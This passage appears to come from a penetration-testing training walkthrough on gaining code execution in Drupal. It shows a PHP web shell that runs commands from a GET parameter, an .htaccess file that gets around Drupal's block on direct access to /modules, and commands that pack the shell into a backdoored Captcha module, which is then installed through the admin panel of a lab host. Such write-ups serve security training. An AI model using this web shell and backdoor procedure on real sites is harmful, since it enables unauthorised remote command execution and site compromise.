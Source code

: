 Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```shell-session
$ mv shell.php .htaccess captcha
$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://drupal.inlanefreight.local/core/authorize.php</p></figcaption></figure>
